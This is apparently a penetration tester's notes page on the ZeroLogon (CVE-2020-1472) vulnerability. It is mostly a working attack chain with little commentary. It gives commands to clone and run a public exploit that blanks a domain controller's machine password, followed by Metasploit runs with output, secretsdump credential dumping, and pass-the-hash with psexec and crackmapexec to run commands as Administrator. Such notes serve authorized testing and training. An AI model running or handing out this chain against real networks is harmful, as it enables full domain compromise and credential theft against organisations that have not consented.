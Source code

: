 # ZeroLogon

{% embed url="https://github.com/VoidSec/CVE-2020-1472" %}

#### a full white paper on this vuln:

{% embed url="https://www.secura.com/blog/zero-logon" %}

## <mark style="color:red;">Exploitation</mark>

```
pipenv shell
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
python setup.py install
pip install .
cd ~
git clone https://github.com/VoidSec/CVE-2020-1472
cd CVE-2020-1472
pip install -r requirements.txt
./cve-2020-1472-exploit.py -n domain-controller -t 192.168.56.208
```

Running the script should results in Domain Controller's account password being reset to an empty string.

![](<../../../.gitbook/assets/image (136).png>)

test to see if the password was reseted:

```
impacket-secretsdump  -no-pass -just-dc MEGACORP.local/Lord_of_Domains\$@192.168.56.118
```

![](<../../../.gitbook/assets/image (46).png>)

## <mark style="color:red;">Metasploit Module</mark>

{% hint style="info" %}
The `auxiliary/gather/windows_secrets_du p` module can be used to recover the original machine account password which can then be restored with this module by using the `RESTORE` action and setting the `PASSWORD` value.
{% endhint %}

### <mark style="color:orange;">Verification Steps</mark>

1. Exploit the vulnerability to remove the machine account password by replacing it with an empty string:
2. Recover the original machine account password
3. Restore the original machine account password

**NBNAME :** The NetBIOS name of the target domain controller. You can use the `auxiliary/scanner/netbios/nbname` module to obtain this value. If this value is invalid the module will fail when making a Netlogon RPC request.

**PASSWORD** : The hex value of the original machine account password. This value is typically recovered from the target system's registry (such as by using the `auxiliary/gather/windows_secrets_dump` Metasploit module) after successfully setting the value to an empty string within Active Directory using this module and the default `REMOVE` action.

This value is only used when running the module with the `RESTORE` action.

```
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon 
set RHOSTS 192.168.159.53
set NBNAME WIN-GD5KVDKUNIP
run

# output:
[+] 192.168.159.53:6403 - Successfully set the machine account (WIN-GD5KVDKUNIP$) password to: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 (empty)
[*] Auxiliary module execution completed
```

At this point the `exploit/windows/smb/psexec` module can be used to achieve code execution if desired. Set the `SMBUser` option to the machine account and the `SMBPass` option to the empty password value.

### <mark style="color:orange;">Recover Password</mark>

Next, recover the original machine account password value using `auxiliary/gather/windows_secrets_dump`. Look for the `plain_password_hex` value in the `$MACHINE.ACC` section.

```
use auxiliary/gather/windows_secrets_dump
set RHOSTS 192.168.159.53
set SMBUser WIN-GD5KVDKUNIP$
set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
run
```

Finally, restore the original value using this module.

```
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
set ACTION RESTORE
set PASSWORD 4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d
run
```

## <mark style="color:red;">PSEXEC</mark>

{% hint style="info" %}
The hash is from `secretsdump` output.
{% endhint %}

```
impacket-psexec -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:812d42b0faa0200aa3361267f518c3c5  domain.local/Administrator@192.168.120.247
```

## <mark style="color:red;">crackmapexec</mark>

{% hint style="info" %}
The hash is from `secretsdump` output.
{% endhint %}

```
crackmapexec smb 192.168.120.247 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:812d42b0faa0200aa3361267f518c3c5  -d domain.local -x whoami
```

